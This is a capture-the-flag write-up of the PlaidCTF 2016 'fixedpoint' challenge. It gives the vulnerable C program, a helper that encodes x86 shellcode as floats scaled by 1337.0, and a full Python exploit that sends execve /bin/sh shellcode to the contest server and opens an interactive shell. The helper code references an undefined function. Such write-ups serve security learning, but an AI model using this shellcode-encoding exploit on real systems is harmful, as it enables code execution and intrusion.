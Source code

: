 ```yaml
---
layout: post
title: pctf 2016 fixedpoint writeup
category: writeup
---
```


```c
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

int main(int argc, char** argv) {
  float* array = mmap(0, sizeof(float)*8192, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
  int i;
  int temp;
  float ftemp;

  for (i = 0; i < 8192; i++) {
    if (!scanf("%d", &temp)) break;
    array[i] = ((float)temp)/1337.0;
  }

  write(1, "here we go\n", 11);
  (*(void(*)())array)();
}
```

All i did was just make shellcode and * 1337.0.
but float is not so precise to control lsb, so i use float with
0x46000000 ~ 0x48000000 (8192.0 ~ 131072.0) which is stable for x * 1337.0 / 1337.0.
(0x46 : inc esi, 0x48 : dec eax)

I use hex-to-int convert code to find payload.

```c
--helper.c--
int* hex_to_int(float a)
{
    float* x = (float*)&a;
    *x = *x * 1337.0;
    return (int*)x;
}
int main()
{
    int a;
    float *ftemp;

    scanf("%08x",&a);
    float* c = (float*)&a;
    printf("%f\n",*c);
    *c = *c * 1337.0;
    printf("%f\n", *c);
    int b = (int)(*c);
    printf("%08x\n",b);
    printf("%08x\n",float_i2f(a));
    //printf("%08x\n", ftemp);
}
```

full exploit code:

```python
import pwnbox

local = False

if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q fixedpoint_02dc03c8a5ae299cf64c63ebab78fec7')
else:
    p = pwnbox.pipe.SocketPipe('fixedpoint.pwning.xxx',7777)

shellCode = ['31c990','31c990','519090','31d290','b26890','c1e208','b27390','c1e208','b22f90','c1e208','b22f52','9031d2','b26e90','c1e208','b26990','c1e208','b26290','c1e208','b22f52','9089e3','515390','89e190','31c090','31d290','b00b90','cd8090']



def helper(a):
    tempP = pwnbox.pipe.ProcessPipe('./helper')
    tempP.write(a+'\n')
    retVal = tempP.read_until('\n')
    retVal = tempP.read_until('\n').split('.')[0]
    tempP.close()
    return retVal


#print helper()

if local:
    p.read_until('(gdb)')
    #p.write('b* 0x80484DA\n')
    #p.read_until('(gdb)')
    #p.write('r\n')
    #p.read_until('(gdb)')
    #p.write('b *$eax\n')
    #p.read_until('(gdb)')
    p.write('r\n')
    #p.interact()

for i in shellCode[:-4]:
    p.write(helper('48'+i[4:] + i[2:4]+ i[0:2])+'\n')

for i in shellCode[-4:]:
    p.write(helper('46'+i[4:] + i[2:4] + i[0:2]) + '\n')



p.interact()
```

